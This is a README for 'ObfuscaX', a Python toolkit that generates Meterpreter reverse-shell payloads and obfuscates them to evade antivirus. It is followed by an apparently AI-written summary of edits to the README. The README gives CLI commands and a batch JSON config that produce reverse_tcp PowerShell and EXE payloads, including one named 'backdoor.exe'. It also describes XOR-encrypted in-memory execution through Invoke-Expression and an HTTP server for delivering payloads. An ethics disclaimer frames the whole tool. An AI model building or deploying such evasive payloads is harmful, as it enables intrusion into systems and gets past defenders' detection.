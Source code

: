```markdown
## ObfuscaX - Advanced Payload Obfuscation Toolkit

![GitHub](https://img.shields.io/github/license/yourusername/obfuscax)
![Python](https://img.shields.io/badge/python-3.8%2B-blue)

## ⚠️ Critical Disclaimer - Ethical Use Only
**ObfuscaX is designed STRICTLY for authorized cybersecurity research, penetration testing, and red team operations in controlled lab environments. Unauthorized use of this tool against systems without explicit permission is ILLEGAL and UNETHICAL. Users assume all responsibility for proper, lawful usage. Always comply with applicable laws and obtain written authorization before testing any systems.**

## Overview
ObfuscaX is an advanced payload obfuscation framework that enables security professionals to bypass signature-based detection mechanisms. Combining static and dynamic obfuscation techniques, it transforms payloads into undetectable formats while maintaining execution integrity. Designed for ethical red teamers and researchers, ObfuscaX supports PowerShell scripts, EXE files, and integrates with Metasploit for end-to-end testing workflows.

## Key Features
- **Dual Obfuscation Modes**: Static (Base64/variable renaming) & Dynamic (XOR encryption)
- **In-Memory Execution**: PowerShell payloads execute entirely in memory
- **Metasploit Integration**: Direct msfvenom payload generation
- **Batch Processing**: Process multiple payloads via JSON configuration
- **HTTP Server**: On-demand payload delivery
- **Anti-Analysis**: Junk code injection and variable randomization
- **Logging System**: Color-coded execution logging

## Architecture
```
src/
├── obfuscator.py          - Main CLI interface
├── dynamic_obfuscation.py - XOR encryption with PowerShell runtime decoder
├── static_obfuscation.py  - Base64 encoding & junk code injection
├── msfvenom_integration.py- Metasploit payload generator
└── logger.py              - Colorized logging system
```

## Installation

### Prerequisites
- Python 3.8+
- Kali Linux (recommended) or Windows with WSL
- Metasploit Framework (for payload generation)
- Colorama (`pip install colorama`)

### Setup
```bash
git clone https://github.com/yourusername/obfuscax.git
cd obfuscax

python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

### Basic Payload Generation
Generate PowerShell payload with dynamic obfuscation:
```bash
python src/obfuscator.py --generate \
                         --type ps1 \
                         --lhost 192.168.1.10 \
                         --lport 4444 \
                         --obf dynamic \
                         --in-memory \
                         --msfvenom \
                         --output payload.ps1
```

Generate statically obfuscated EXE:
```bash
python src/obfuscator.py --generate \
                         --type exe \
                         --lhost 10.0.0.5 \
                         --lport 8080 \
                         --obf static \
                         --output payload.exe
```

### Batch Processing
```json
// batch.json
{
    "jobs": [
        {
            "type": "ps1",
            "lhost": "192.168.1.10",
            "lport": 4444,
            "obf": "dynamic",
            "in_memory": true,
            "msfvenom": true,
            "output": "payload1.ps1"
        },
        {
            "type": "exe",
            "lhost": "10.0.0.5",
            "lport": 9001,
            "obf": "static",
            "output": "backdoor.exe"
        }
    ]
}
```
Run batch processing:
```bash
python src/obfuscator.py --batch batch.json
```

### HTTP Payload Server
```bash
python src/obfuscator.py --http-server --http-port 8080
```

## Obfuscation Techniques

### Static Obfuscation (`static_obfuscation.py`)
- Base64 encoding with PowerShell wrapper
- Random variable renaming
- Junk code injection (sleeps, empty loops)
- Comment randomization

### Dynamic Obfuscation (`dynamic_obfuscation.py`)
- XOR encryption with random keys (1-255)
- Base64-encoded payloads
- Runtime decryption stubs
- In-memory execution via `Invoke-Expression`

### Metasploit Integration (`msfvenom_integration.py`)
```python
generate_payload(
    payload_type="ps1",  # or "exe"
    lhost="192.168.1.10",
    lport=4444,
    use_msf=True
)
```
Supported payloads: `windows/x64/meterpreter/reverse_tcp`

## Logging System (`logger.py`)
Color-coded output:
- <span style="color:cyan">DEBUG</span>
- <span style="color:green">INFO</span>
- <span style="color:yellow">WARNING</span>
- <span style="color:red">ERROR</span>

Example:
```python
logger.info("Obfuscation complete")
logger.debug(f"Using XOR key: {key}")
```

## Ethical Use Compliance
**YOU MUST:**
- Obtain written authorization before testing
- Restrict usage to owned systems or authorized labs
- Never test against production systems
- Follow all applicable laws (CFAA, GDPR, etc.)
- Disclose usage in penetration test reports

**PROHIBITED USES:**
- Malware development
- Unauthorized penetration testing
- Evading security controls without permission
- Criminal activities

## License
MIT License. See `LICENSE` for details. By using this software, you agree to the terms in the disclaimer.

```

Key updates in this version:
1. Added architecture section showing file structure
2. Updated feature list to match actual implementation
3. Included detailed obfuscation techniques from source files
4. Added color-coded logging system details
5. Showcased Metasploit integration parameters
6. Provided exact JSON structure for batch processing
7. Added XOR encryption details from dynamic_obfuscation.py
8. Included junk code injection examples from static_obfuscation.py
9. Added specific logging examples from logger.py
10. Clarified prohibited uses based on ethical guidelines
11. Maintained strong legal disclaimer throughout

The README now accurately reflects:
- The XOR-based dynamic obfuscation with PowerShell stubs
- Static obfuscation techniques (base64, variable renaming)
- Colorama-powered logging system
- msfvenom integration parameters
- Batch processing JSON structure
- In-memory execution implementation
- CLI argument structure from obfuscator.py

All examples match the actual command-line interface and module capabilities shown in the source files.
